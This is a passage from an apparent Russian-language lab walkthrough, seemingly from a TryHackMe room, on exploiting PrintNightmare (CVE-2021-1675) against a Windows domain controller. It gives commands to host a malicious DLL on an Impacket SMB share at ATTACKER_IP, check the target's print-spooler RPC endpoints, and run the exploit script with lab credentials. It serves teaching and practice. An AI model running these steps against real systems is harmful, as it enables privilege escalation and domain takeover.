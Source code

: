 Ниже показано, как это сделать с помощью smbserver.py из Impacket.

Запустите общий ресурс SMB с Impacket для размещения вредоносного кода.
DLL
```commandline
root@attackbox:~/Desktop/pn# smbserver.py share /root/Desktop/share/ -smb2support 
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Краткое пояснение команды на изображении выше:

Это имя общего ресурса SMB для выполнения эксплойта. (Пример: \\ATTACKER_IP\share\malicious.dll )
Это локальная папка, в которой будет храниться вредоносная DLL . (Пример: /root/Desktop/share/malicious.dll )
Прежде чем слепо применить эксплойт к цели, давайте сначала проверим, соответствует ли цель критериям для ее эксплуатации.

Проверьте, уязвима ли цель для этого эксплойта
```commandline
root@attackbox:~/Desktop/pn# rpcdump.py @MACHINE_IP | egrep 'MS-RPRN|MS-PAR' 
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```
Да, выглядит хорошо.  Наконец-то пришло время запустить эксплойт. Перейдите в папку, куда вы скачали код эксплойта с 
GitHub, это должно быть . /root/Desktop/pn/CVE-2021-1675

Мы воспользуемся скриптом Python для эксплуатации уязвимости PrintNightmare против контроллера домена Windows 2019.

Синтаксис эксплойт-кода
```commandline
root@attackbox:~/Desktop/pn/CVE-2021-1675# python3.9 CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@MACHINE_IP '\\192.168.0.100\share\malicious.dll'
```
Краткое пояснение команды на изображении выше:
```commandline

```
python3.9 CVE -2021-1675.py -> вы указываете Python запустить следующий скрипт Python. Значения, которые следуют 
ниже, являются параметрами, необходимыми скрипту для успешного использования уязвимости PrintNightmare.
Finance-01.THMdepartment.local -> имя контроллера домена ( Finance-01 ) вместе с именем домена ( THMdepartment.local )
sjohnston:mindheartbeauty76@MACHINE_IP  -> имя пользователя и пароль для учетной записи пользователя Windows с 
низкими привилегиями.
\\ATTACKER_IP_ADDRESS\share\malicious.dll -> местоположение пути SMB, где хранится вредоносная DLL. 
Если все пойдет хорошо, вы должны увидеть результат, аналогичный изображенному ниже.
